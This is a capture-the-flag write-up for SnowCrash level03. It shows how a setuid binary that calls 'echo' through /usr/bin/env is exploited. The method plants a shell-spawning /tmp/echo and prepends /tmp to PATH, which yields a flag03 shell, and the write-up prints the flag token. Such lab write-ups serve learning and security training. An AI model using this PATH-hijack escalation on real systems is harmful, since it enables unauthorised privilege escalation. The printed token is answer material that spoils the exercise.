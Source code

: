### Exploit

In this level, we're provided with an exec file `./level03`. When executing the file, we get the message "Exploit me". Well, cheers, I might just do that. Calling `strings` and `nm`, we're able to get a better insight into what this exploit might be.

```
    level03@SnowCrash:~$ strings level03
    [...]
    /usr/bin/env echo Exploit me
    [...]
    level03@SnowCrash:~$ nm level03
    [...]
    080484a4 T main
             U setresgid@@GLIBC_2.0
             U setresuid@@GLIBC_2.0
             U system@@GLIBC_2.0
```

Notice “echo” is being called without its absolute path and relies on `/usr/bin/env` in order to be executed. This is a major security vulnerability because the script will rely on the environment variables of the current shell (which can be tampered with). Let's create a temporary `echo` file which will in fact spawn a shell. The idea is that when the user launches the executable, the "classic" echo command will be overwritten by our "fake" echo commend. By exporting a new path to the environment, `/tmp/echo` is called first and does whatever you want.

```
    level03@SnowCrash:~$ touch /tmp/echo
    level03@SnowCrash:~$ cat /tmp/echo
    #!/bin/sh
    sh
    level03@SnowCrash:~$ chmod 775 /tmp/echo
    level03@SnowCrash:~$ export PATH=/tmp:$PATH
    level03@SnowCrash:~$ echo $PATH
    /tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level03@SnowCrash:~$ ./level03
    $ id
    uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
    $ getflag
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

We've learnt to tamper with environment variables! Hope this skill is going to be useful in the future...
